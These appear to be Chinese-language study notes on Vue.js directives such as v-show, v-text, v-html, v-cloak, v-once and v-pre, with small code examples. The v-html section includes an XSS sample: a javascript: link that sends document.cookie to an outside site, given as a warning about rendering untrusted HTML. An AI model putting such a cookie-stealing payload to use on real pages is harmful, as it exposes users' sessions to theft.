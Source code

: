 # v-show

与`v-if`区别：

1. v-if是动态增删DOM元素，而v-show是通过样式控制显示隐藏
2. v-if适合不太容易改变的结构场景，v-show适合频繁显示隐藏的场景

```html
<div id="app">
	<h2 v-show="isShow">
		动态控制隐藏显示
	</h2>
</div>
<script>
    Vue.config.productionTip = false;
	let vm = new Vue({
		el: '#app',
		data:{
			isShow:true
		}
	})
</script>
```

# v-text

类似innerHTML的作用，将值插入标签内，且不会解析HTML代码

```html
<div id="root">
    {{ name }}
    <div v-text="name"></div>
    <div v-text="str"></div>
</div>
<script type="text/javascript">
    Vue.config.productionTip = false;
    new Vue({
        el: '#root',
        data:{
          name:'上海',
          //注意v-text不会解析标签，而是直接将标签当纯文本解析
          str:'<h1>hello, shanghai</h1>'
        }
    })
</script>
```

# v-html
v-html指令：
	1.作用：向指定节点中渲染包含html结构的内容。
	2.与插值语法的区别：
		(1).v-html会替换掉节点中所有的内容，{{xx}}则不会。
		(2).v-html可以识别html结构。
	3.严重注意：v-html有安全性问题！！！！
		(1).在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
		(2).一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

 	4.与v-text的优先级：谁在标签体的最后谁的优先级高，如：

```html
<div v-text="message" v-html="message"></div> <!-- v-html生效，v-text不生效 -->
<div v-html="message" v-text="message"></div> <!-- v-text生效，v-html不生效 -->
```



```html
<div id="root">
    <div v-text="name"></div>
    <div v-html="str"></div>
    <div v-html="str2"></div>
</div>
<script type="text/javascript">
    Vue.config.productionTip = false;
    new Vue({
        el: "#root",
        data:{
            name:'上海',
            //注意v-html会解析标签，这点与v-text不一样
            str:'<h1>hello, shanghai</h1>',
            //危险行为 永远不要相信用户的输入
            str2:'<a href=javascript:location.href="https://www.baidu.com?"+document.cookie>获取用户Cookie</a>'
        }
    })
</script>
```

# v-cloak

v-cloak指令（没有值）：
	1.本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
	2.使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。

```html
<head>
    <meta charset="UTF-8" />
    <title>v-cloak指令</title>
    <style>
        [v-cloak]{
            display:none;
        }
    </style>
    <!-- 引入Vue -->
</head>
<body>
<!-- 准备好一个容器-->
<div id="root">
    <h2 v-cloak>{{name}}</h2>
</div>
<script type="text/javascript" src="./js/vue.js"></script>
</body>

<script type="text/javascript">
    console.log(1)
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            name:'尚硅谷'
        }
    })
</script>
```

# v-once
v-once指令：
	1.v-once所在节点在初次动态渲染后，就视为静态内容了。
	2.以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能。

```html
<div id="root">
    <!--v-once-->
    <h2 v-once>初始化n的值为:{{ n }}</h2>
    <h2>当前的n值为:{{ n }}</h2>
    <button @click="n++">带我n+1</button>
</div>
<script type="text/javascript">
    Vue.config.productionTip = false;
    new Vue({
        el:"#root",
        data:{
           n:1
        }
    })
</script>
```

# v-pre

v-pre指令：
	1.跳过其所在节点的编译过程。
	2.可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译。

```html
<div id="root">
    <h2 v-pre>Vue其实很简单</h2>
    <h2>当前的n值为:{{ n }}</h2>
    <button @click="n++">带我n+1</button>
</div>
<script type="text/javascript">
    Vue.config.productionTip = false;
    new Vue({
        el:"#root",
        data:{
           n:1
        }
    })
</script>
```

#### 已经学过的v-命令

`v-bind v-model v-if v-else v-else-if v-for v-show v-on`

`v-text v-html v-cloak v-once v-pre`